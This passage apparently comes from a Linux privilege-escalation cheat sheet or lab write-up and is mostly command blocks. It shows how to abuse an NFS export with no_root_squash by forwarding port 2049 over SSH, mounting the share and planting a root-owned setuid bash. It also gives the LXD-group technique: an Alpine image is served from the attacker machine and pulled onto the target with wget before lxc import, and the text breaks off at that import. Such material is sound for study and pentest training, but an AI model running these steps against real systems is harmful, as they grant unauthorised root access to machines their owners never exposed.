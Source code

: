 ```bash
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

> We have an NFS mount! But we didn’t see NFS anywhere on the nmap scan! This tells us that the port is probably behind a firewall. A quick google search tells us that fsid=0 means that we are using NFSv4 here. This is good, as we only have 1 port to worry about.

-   Forwarding all the ports!
    -   Google also tells us that NFSv4 uses port 2049. So let’s forward that port locally.

```bash
ssh -fNL 2049:localhost:2049 -i id_rsa $USER@$TARGET_IP  # Local kali machine
```

-   Mount up
    -   First we’ll create a mount point and then mount the drive. There’s a small hitch in that we’ll mount using localhost, as we’re forwarding that port over.

```bash
# Local kali machine
mkdir mnt
sudo mount -t nfs4 localhost:/ mnt
# entering into our mount point, we can see files!
cd mnt
```

-   The no_root_squash option that we saw earlier is also very interesting, It basically will allow files owned by root to keep their root privileges. Basically, your root is my root, and my root is your root.

-   Because we have root privileges on our attacker box, we can abuse this setting to add a sticky bit to something like bash and execute that as a user to gain root access to the target machine. Let’s see this in action.

```bash
# Local kali machine in mounted root path
cp /bin/bash .
sudo chown root:root ./bash
sudo chmod +s ./bash
# Give access to all users on the root directory
sudo chmod +rx .
```

> Now as the user on target machine , we should be able to enter on the directory and run our new bash with the -p option!

<div style="page-break-after: always;"></div>

## 9. LXD Group

```bash
kali@kali: > git clone https://github.com/saghul/lxd-alpine-builder.git
kali@kali: > cd rootfs/usr/share/
kali@kali: > sudo mkdir alpine-mirror
kali@kali: > cd alpine-mirrors
kali@kali: > sudo touch MIRRORS.txt
kali@kali: > sudo nano MIRRORS.txt
	http://alpine.mirror.wearetriple.com
kali@kali: > cd ../../../..
kali@kali: > chmod +x build-alpine
kali@kali: > sudo ./build-alpine  # Talvés seja perciso mais que uma vez
kali@kali: > sudo python3 -m http.server 80

target@10.10.10.10: > wget http://<kali ip>:80/<alpine-name.tar.gz>
target@10.10.10.10: > lxd init  # Enter all options
target@10.10.10.10: > lxc image import ./<alpine-name.tar.gz> --alias privesc
```